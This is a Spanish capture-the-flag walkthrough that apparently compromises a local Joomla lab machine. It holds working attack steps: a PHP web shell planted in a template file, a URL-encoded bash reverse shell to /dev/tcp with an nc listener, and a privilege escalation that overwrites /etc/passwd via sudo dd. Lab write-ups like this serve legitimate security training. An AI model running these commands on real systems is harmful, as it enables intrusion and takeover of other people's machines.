 Fecha: 07/09/2024

Empiezo usando nmap: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](Imágenes/Pasted%20image%2020240907220608.png)

Voy a hacer fuzzing:
```bash 
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

![](Imágenes/Pasted%20image%2020240907220826.png)

Veo que hay un archivo "robots.txt", así que accedo al mismo: 
![](Imágenes/Pasted%20image%2020240907221211.png)

Veo lo que podría ser una contraseña (`c2FubHVpczEyMzQ1`) Accedo al directorio "administrator" y veo lo que podrían ser un nombre de usuario (`TLuisillo_o`) y el nombre del servicio (`Joomla`):

![](Imágenes/Pasted%20image%2020240907221358.png)

Pruebo el usuario y contraseña en el formulario de login de esta sección, pero no funcionan. 
![](Imágenes/Pasted%20image%2020240907221329.png)

La contraseña podría estar en base64, así que pruebo a decodificarla:
![](Imágenes/Pasted%20image%2020240907221707.png)

Pruebo con esta contraseña y, tampoco me deja iniciar sesión. Al probar con admin, lo consigo. 

![](Imágenes/Pasted%20image%2020240907221843.png)

Busco en https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce y encuentro que puedo hacerme una reverse-shell. Añado `system($_GET['cmd']);` a error.php:

Podré ejecutar comandos con `curl -s 172.17.0.2/templates/cassiopeia/error.php?cmd=<comando>`
Me hago una reverse shell:
```bash
# Quiero ejecutar:
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
# Para ello, lo codificaré para url.
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F9001%200%3E%261%27


# En una terminal, ejecuto:
nc -lvnp 9001
# En otra:
curl -s http://172.17.0.2/templates/cassiopeia/error.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F9001%200%3E%261%27

```

Trato la tty: 
```bash
# Empezando desde la reverse shell:
script /dev/null -c bash

Control Z 

stty raw -echo; fg

reset xterm

export TERM=xterm
```

Como no encuentro la forma de escalar privilegios, busco ficheros .txt, encontrando uno con un nombre curioso:
![](Imágenes/Pasted%20image%2020240907223915.png)

![](Imágenes/Pasted%20image%2020240907223939.png)

Pruebo a iniciar sesión como "luisillo" usando esa contraseña. Funciona, así que miro como hacerme superusuario:
![](Imágenes/Pasted%20image%2020240907224023.png)

En https://gtfobins.github.io/gtfobins/dd/#sudo encuentro que puedo ejecutar:
```bash
echo "root::0:0:root:/root:/bin/bash" | sudo dd of=/etc/passwd
```


![](Imágenes/Pasted%20image%2020240907233013.png)
